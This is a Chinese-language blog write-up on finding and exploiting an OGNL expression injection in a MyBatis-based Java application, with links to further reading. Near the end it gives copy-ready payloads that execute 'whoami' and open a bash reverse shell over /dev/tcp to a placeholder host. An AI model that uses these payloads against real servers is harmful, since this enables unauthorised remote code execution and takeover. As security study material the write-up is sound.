

# OGNL注入实战

---

### 报！前方有洞！

发现一个参数存在表达式注入，一看就是java环境，那么可能是FreeMarker的SSTI，也可能是EL表达式/OGNL表达式。为什么报错呢？因为输入的参数与数据库指定的字段类型不符，于是产生了报错。

开始使用各种阴间的畸形表达式尝试报错：

接着尝试发现了是Mybatis中使用的OGNL表达式产生了错误，不支持`a(111)`这种表达。

对Mybatis和开发感兴趣的同学可以参考下文

`https://blog.csdn.net/isea533/article/details/50061705`

---

### 再探再报！

此时已知是ognl表达式，可以进一步测试。测试是否可以执行代码，把int转换成String，看来效果不明显。

getInputStream()方法是继承Stream接口的实例才能有的方法，其他的实例是无法使用的，比如Int对象和String对象都没有这个方法，所以会报错`不是指定的对象object`。根据这个特性的报错可以进行判断，此时是Int。

而toString()还是可以正常执行的，此时报错为String。

---

### 不讲武德！

经过反复测试，确认构造方法可以执行，对象可以调用方法等等。

OGNL表达式分析推荐阅读：`https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x05-OGNL%E6%94%BB%E9%98%B2%E5%8F%B2`

学完之后发现按照最老版本的Structs2的OGNL表达式注入攻击手法，只需要给之前的Payload添加亿点点细节，就可以Shell了：

`${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}`

尝试反弹NC（实战发现好像不出网，哈哈哈），反弹方法推荐阅读：`https://www.jianshu.com/p/ae3922db1f70`

给出如下payload仅供各位参考

`${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash$IFS$9-i>&/dev/tcp/ip/port<&1').getInputStream())}`

---

